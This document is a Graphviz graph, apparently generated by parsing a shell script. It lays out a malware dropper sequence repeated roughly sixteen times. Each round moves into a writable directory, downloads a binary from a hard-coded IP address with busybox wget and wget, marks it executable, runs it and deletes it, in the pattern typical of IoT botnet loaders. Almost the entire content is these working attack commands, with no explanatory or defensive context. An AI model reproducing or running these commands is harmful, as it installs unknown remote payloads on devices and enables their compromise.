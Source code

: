 digraph {
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 10 [label="||,"];
10 [label="/bin/busybox wget http://168.235.108.197/rajdks "];
10 -> 12 [label=";,"];
12 [label="wget http://168.235.108.197/rajdks "];
12 -> 14 [label=";,"];
14 [label="chmod +x rajdks "];
14 -> 16 [label=";,"];
16 [label="./rajdks "];
16 -> 18 [label=";,"];
18 [label="rm -rf rajdks "];
18 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 30 [label="||,"];
30 [label="/bin/busybox wget http://168.235.108.197/xcdscds "];
30 -> 32 [label=";,"];
32 [label="wget http://168.235.108.197/xcdscds "];
32 -> 34 [label=";,"];
34 [label="chmod +x xcdscds "];
34 -> 36 [label=";,"];
36 [label="./xcdscds "];
36 -> 38 [label=";,"];
38 [label="rm -rf xcdscds "];
38 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 50 [label="||,"];
50 [label="/bin/busybox wget http://168.235.108.197/oposjsx "];
50 -> 52 [label=";,"];
52 [label="wget http://168.235.108.197/oposjsx "];
52 -> 54 [label=";,"];
54 [label="chmod +x oposjsx "];
54 -> 56 [label=";,"];
56 [label="./oposjsx "];
56 -> 58 [label=";,"];
58 [label="rm -rf oposjsx "];
58 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 70 [label="||,"];
70 [label="/bin/busybox wget http://168.235.108.197/cdsfdjz "];
70 -> 72 [label=";,"];
72 [label="wget http://168.235.108.197/cdsfdjz "];
72 -> 74 [label=";,"];
74 [label="chmod +x cdsfdjz "];
74 -> 76 [label=";,"];
76 [label="./cdsfdjz "];
76 -> 78 [label=";,"];
78 [label="rm -rf cdsfdjz "];
78 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 90 [label="||,"];
90 [label="/bin/busybox wget http://168.235.108.197/cdsjks "];
90 -> 92 [label=";,"];
92 [label="wget http://168.235.108.197/cdsjks "];
92 -> 94 [label=";,"];
94 [label="chmod +x cdsjks "];
94 -> 96 [label=";,"];
96 [label="./cdsjks "];
96 -> 98 [label=";,"];
98 [label="rm -rf cdsjks "];
98 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 110 [label="||,"];
110 [label="/bin/busybox wget http://168.235.108.197/ffweef "];
110 -> 112 [label=";,"];
112 [label="wget http://168.235.108.197/ffweef "];
112 -> 114 [label=";,"];
114 [label="chmod +x ffweef "];
114 -> 116 [label=";,"];
116 [label="./ffweef "];
116 -> 118 [label=";,"];
118 [label="rm -rf ffweef "];
118 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 130 [label="||,"];
130 [label="/bin/busybox wget http://168.235.108.197/kfowef "];
130 -> 132 [label=";,"];
132 [label="wget http://168.235.108.197/kfowef "];
132 -> 134 [label=";,"];
134 [label="chmod +x kfowef "];
134 -> 136 [label=";,"];
136 [label="./kfowef "];
136 -> 138 [label=";,"];
138 [label="rm -rf kfowef "];
138 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 150 [label="||,"];
150 [label="/bin/busybox wget http://168.235.108.197/dwqdqq "];
150 -> 152 [label=";,"];
152 [label="wget http://168.235.108.197/dwqdqq "];
152 -> 154 [label=";,"];
154 [label="chmod +x dwqdqq "];
154 -> 156 [label=";,"];
156 [label="./dwqdqq "];
156 -> 158 [label=";,"];
158 [label="rm -rf dwqdqq "];
158 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 170 [label="||,"];
170 [label="/bin/busybox wget http://168.235.108.197/woewec "];
170 -> 172 [label=";,"];
172 [label="wget http://168.235.108.197/woewec "];
172 -> 174 [label=";,"];
174 [label="chmod +x woewec "];
174 -> 176 [label=";,"];
176 [label="./woewec "];
176 -> 178 [label=";,"];
178 [label="rm -rf woewec "];
178 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 190 [label="||,"];
190 [label="/bin/busybox wget http://168.235.108.197/weflff "];
190 -> 192 [label=";,"];
192 [label="wget http://168.235.108.197/weflff "];
192 -> 194 [label=";,"];
194 [label="chmod +x weflff "];
194 -> 196 [label=";,"];
196 [label="./weflff "];
196 -> 198 [label=";,"];
198 [label="rm -rf weflff "];
198 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 210 [label="||,"];
210 [label="/bin/busybox wget http://168.235.108.197/wweccc "];
210 -> 212 [label=";,"];
212 [label="wget http://168.235.108.197/wweccc "];
212 -> 214 [label=";,"];
214 [label="chmod +x wweccc "];
214 -> 216 [label=";,"];
216 [label="./wweccc "];
216 -> 218 [label=";,"];
218 [label="rm -rf wweccc "];
218 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 230 [label="||,"];
230 [label="/bin/busybox wget http://168.235.108.197/kfcedd "];
230 -> 232 [label=";,"];
232 [label="wget http://168.235.108.197/kfcedd "];
232 -> 234 [label=";,"];
234 [label="chmod +x kfcedd "];
234 -> 236 [label=";,"];
236 [label="./kfcedd "];
236 -> 238 [label=";,"];
238 [label="rm -rf kfcedd "];
238 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 250 [label="||,"];
250 [label="/bin/busybox wget http://168.235.108.197/cocain "];
250 -> 252 [label=";,"];
252 [label="wget http://168.235.108.197/cocain "];
252 -> 254 [label=";,"];
254 [label="chmod +x cocain "];
254 -> 256 [label=";,"];
256 [label="./cocain "];
256 -> 258 [label=";,"];
258 [label="rm -rf cocain "];
258 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 270 [label="||,"];
270 [label="/bin/busybox wget http://168.235.108.197/analsx "];
270 -> 272 [label=";,"];
272 [label="wget http://168.235.108.197/analsx "];
272 -> 274 [label=";,"];
274 [label="chmod +x analsx "];
274 -> 276 [label=";,"];
276 [label="./analsx "];
276 -> 278 [label=";,"];
278 [label="rm -rf analsx "];
278 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 290 [label="||,"];
290 [label="/bin/busybox wget http://168.235.108.197/suckas "];
290 -> 292 [label=";,"];
292 [label="wget http://168.235.108.197/suckas "];
292 -> 294 [label=";,"];
294 [label="chmod +x suckas "];
294 -> 296 [label=";,"];
296 [label="./suckas "];
296 -> 298 [label=";,"];
298 [label="rm -rf suckas "];
298 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 310 [label="||,"];
310 [label="/bin/busybox wget http://168.235.108.197/edcecc "];
310 -> 312 [label=";,"];
312 [label="wget http://168.235.108.197/edcecc "];
312 -> 314 [label=";,"];
314 [label="chmod +x edcecc "];
314 -> 316 [label=";,"];
316 [label="./edcecc "];
316 -> 317 [label=";,"];
}
